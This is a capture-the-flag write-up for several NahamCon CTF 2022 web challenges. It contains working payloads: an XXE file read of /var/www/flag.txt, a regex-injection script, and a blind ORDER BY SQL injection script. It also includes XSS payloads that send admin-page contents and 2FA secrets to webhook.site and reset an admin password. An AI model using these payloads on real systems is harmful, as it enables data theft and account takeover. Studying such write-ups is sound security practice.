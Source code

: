 ```yaml
---
title: NahamconCTF 2022
description: From Nahamconctf2022
author: to^
date: 2022-05-01 1:10:00 +0700
categories: [WebSec, CTF]
tags: [xss, xxe, sqli]     # TAG names should always be lowercase
img_path: /assets/img/nahamconctf2022
---
```


Solution for some web challenges

![solvedChallenge](solves.png)
_solved challenges_

## EXtravagant

Upload exp.xml and view it
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/var/www/flag.txt"> ]>
<foo>&xxe;</foo>
```
> flag{639b72f2dd0017f454c44c3863c4e195}
{: .prompt-info  }

___

## Jurassic Park

access `robots.txt`
![Jurassic Park](JurassicPark/flag.png)

___

## Personnel

exploit script:
```py
import requests
import re

TARGET = "http://challenge.nahamcon.com:30349/"

r = requests.post(TARGET, data={"name": "1|(flag.*)|1", "setting":0})

flag = re.search(r"<li>(flag.*)</li>", r.text).group(1)
print("[-] FLAG: " + flag)
```

> flag{f0e659b45b507d8633065bbd2832c627}
{: .prompt-info  }

___

## Flaskmetal Alchemist

From requirements.txt, server uses `SQLAlchemy==1.2.17` and it is vulnerable to [sqli](https://www.cvedetails.com/cve/CVE-2019-7164/).

exploit script:
```py
import requests
import string
TARGET = "http://challenge.nahamcon.com:30378/"
FLAG_LENGTH = 0

# Find flag length
for i in range(30):
    order_by_inject = f"(SELECT CASE WHEN ((SELECT LENGTH(flag) from flag) = {i+1}) THEN atomic_number ELSE symbol END)"
    data = {"search" : "a", "order": order_by_inject}
    r = requests.post(TARGET, data)

    # with this payload, "aotomic number" column will return "89" before "12" if the WHEN condition is true
    if r.text.find("89</td>") > r.text.find("12</td>"):
        FLAG_LENGTH = i+1
        print(f"[-] Flag length: {FLAG_LENGTH}")
        break


# Find flag
FLAG = ""
for i in range(FLAG_LENGTH):
    for c in string.ascii_lowercase + "_}{":
        order_by_inject = f"(SELECT CASE WHEN ((SELECT SUBSTR(flag, {i+1}, 1) from flag) = '{c}') THEN atomic_number ELSE symbol END)"
        data = {"search" : "a", "order": order_by_inject}
        r = requests.post(TARGET, data)
    
        if r.text.find("89</td>") > r.text.find("12</td>"):
            FLAG += c
            print(f"[-] Flag: {FLAG}")
            break
```

> flag{order_by_blind}
{: .prompt-info  }

## Hacker Ts

The page renders text on t-shirts based on POST `text` param.

```js
x=new XMLHttpRequest;
x.onload=function(){
x1=new XMLHttpRequest;
x1.open("GET","https://webhook.site/f61d8f20-bc48-4ae9-805f-3db7a842363b?c="%2bencodeURIComponent(btoa(this.responseText)));
x1.send();
};
x.open("GET","http://localhost:5000/admin");
x.send();
```

webhook receives request:
![result](HackerTs/result.png)
_result_

![flag](HackerTs/flag.png)
_flag_

___

## Two For One

This is a two factor authentication challenge using password and OTP.

The feedback features in `Settings` page is vulnerable to blind XSS

Solve steps: reset 2FA  -> reset admin account's password  -> login as admin -> get flag

### Get new otp auth value

```js
    var x = new XMLHttpRequest();
    x.open('POST', 'http://challenge.nahamcon.com:32084/reset2fa');
    x.setRequestHeader("Content-Type", "application/json");
    x.setRequestHeader("Accept", "application/json");
    x.onload = function() {
        navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText);
    };
    x.send();
```

![new otp auth value](TwoforOne/leakotpauth.png)
_otp auth_

### Generate new admin's qr code 

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>QR code page</title>
</head>

<body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/qrious/4.0.2/qrious.min.js"></script>
    <div class="row">
        <div class="col-12">
            <canvas id="qr" style="margin-right: auto; margin-left: auto;"></canvas>
        </div>
    </div>
    <script>
        var qr = new QRious({
            size: 250,
            element: document.getElementById('qr'),
            value: "otpauth://totp/Fort%20Knox:admin?secret=QFBPNXXUIQ6D3LAD&issuer=Fort%20Knox"
        });
    </script>
</body>
</html>
```

![admin qr code](TwoforOne/generate_admin_qr_code.png)
_new admin qr code_

### Reset admin password
```js
    var x = new XMLHttpRequest();
    x.open('POST', 'http://challenge.nahamcon.com:30223/reset_password');
    x.setRequestHeader("Content-Type", "application/json");
    x.setRequestHeader("Accept", "application/json");
    x.onload = function() {
        navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText);
    };
    x.send(JSON.stringify({
        otp: "063517",
        password: "to^",
        password2: "to^"
    }));
```

### Finally, login and view flag

![flag](TwoforOne/flag.png)
_flag_


